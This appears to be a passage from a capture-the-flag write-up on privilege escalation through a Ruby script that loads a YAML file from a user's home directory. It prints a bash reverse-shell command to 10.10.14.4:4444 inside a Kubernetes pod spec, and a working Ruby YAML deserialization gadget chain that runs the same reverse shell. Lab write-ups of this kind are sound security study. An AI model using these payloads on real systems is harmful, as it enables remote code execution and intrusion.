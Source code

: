 ```ruby

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

- If we launch the command we get this error
![yaml not found](../.res/2022-12-18-14-38-04.png)  

- This means that it is looking for the dependencies. We could create a malicious yml file and put it in Henri's home. The path is not defined in the script so it will look in Henri's home.  
Let's hope that it works...
- We can try this script that I found [here](https://stackoverflow.com/questions/33887194/how-to-set-multiple-commands-in-one-yaml-file-with-kubernetes)

```yml
apiVersion: v1
kind: Pod
metadata:
  name: hello-world
spec:  # specification of the pod’s contents
  restartPolicy: Never
  containers:
  - name: hello
    image: "ubuntu:14.04"
    command: ["/bin/bash"]
    args: ["bash -i >& /dev/tcp/10.10.14.4/4444 0>&1"]
```

- The script above does not work and we get no errors.
- The one that did it is the one I found in [this blog post](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/) 

```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'bash -i >& /dev/tcp/10.10.14.4/4444 0>&1'"
         method_id: :resolve
```